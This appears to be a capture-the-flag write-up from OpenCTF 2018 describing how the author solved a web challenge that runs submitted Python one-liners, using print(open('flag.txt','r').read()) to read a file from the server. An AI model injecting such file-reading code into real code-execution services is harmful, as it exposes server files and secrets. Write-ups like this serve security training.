 ```yaml
---
title: "OpenCTF Nightmare 50"
date: Sun, 12 Aug 2018 20:27:00 +0000
draft: false
type: posts
categories: 
- 
---
```

# OpenCTF Nightmare 50

<br/>

<br/>
**Category:** Web

**Points:** 50

**Description:**

```
Automated home work scoring my ass. https://shades-of-nightmare.openctf.com/nzpoixyucvkjwnerntasdfascdvasdfqwerqwe/nightmare-50/
```

When connecting to this website in my browser, I receive the following prompt:

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
```

So it looks like this will execute the Python code you provide. So I test it with the following:

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
print('Hello world')
Hello world
```

And then it immediately closes the connection. So it looks like it only allows a single line of Python code.

I then decide to try and dump the working directory file contents. This can be done with `os.listdir('.')`, however, this would require a call to `import os`. Unfortunately, it appears some or all imports are blocked, as an error was returned. So instead, I decide to just guess that there exists a file either called `flag.txt` or `flag` in the working directory, and luckily, opening and reading files doesn’t require any imports. So I construct a one-liner to do just that: `print(open('flag.txt','r').read())`.

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
print(open('flag.txt','r').read())
ThisIsAVeryFl@ggyFlag
```

Flag
====

**ThisIsAVeryFl@ggyFlag**

#### [Source](http://b0tchsec.com/2018/openctf/nightmare50)

<br/>
---
